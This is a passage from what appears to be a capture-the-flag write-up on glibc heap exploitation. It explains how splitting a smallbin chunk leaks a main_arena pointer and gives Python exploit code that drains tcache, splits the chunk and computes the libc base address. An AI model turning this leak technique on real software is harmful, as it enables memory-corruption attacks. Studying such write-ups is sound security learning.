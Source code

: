 A much better idea is to split the large chunk in two at a precisely calculated boundary by allocating part of it. Because it's in a smallbin, the split will put `fd` and `bk` pointers into the remaining part, and since `libc` prefers reusing the latest _remainder chunk_ (due to data locality), it will be linked directly to `main_arena`, which we can leak with `show(B)`

Here's another illustration for your viewing pleasure:

![Leaky heap](images/heap_3.png)

and the code to create the corresponding heap state:

```python
# want to allocate a chunk of SIZE_A from large chunk AB_SZ here..
# but tcache will take precedence, so need to empty tcache
new_range(SIZE_A, 7, 'A_tcache_slurp')

# split large chunk into two
new(SIZE_A, 'A1')

# now AB has been split into 0x100 and 0x120 - the 0x120 is readable by us through index 0, originally known as B
libc_base = u64(show(0)[:6].ljust(8, '\x00')) - 0x3ebca0
print "libc_base: 0x{:x}".format(libc_base)

# ! UNIMPORTANT BELOW, just rearranging the allocations
# to use lower slot indices - I was really confused :|
del_range(range(1,7))
# use tcache space to set slot 1 to be our initial chunk
delete(8)
new(SIZE_A, 'HUE')
delete(7) # send final chunk to SIZE_A tcache
```
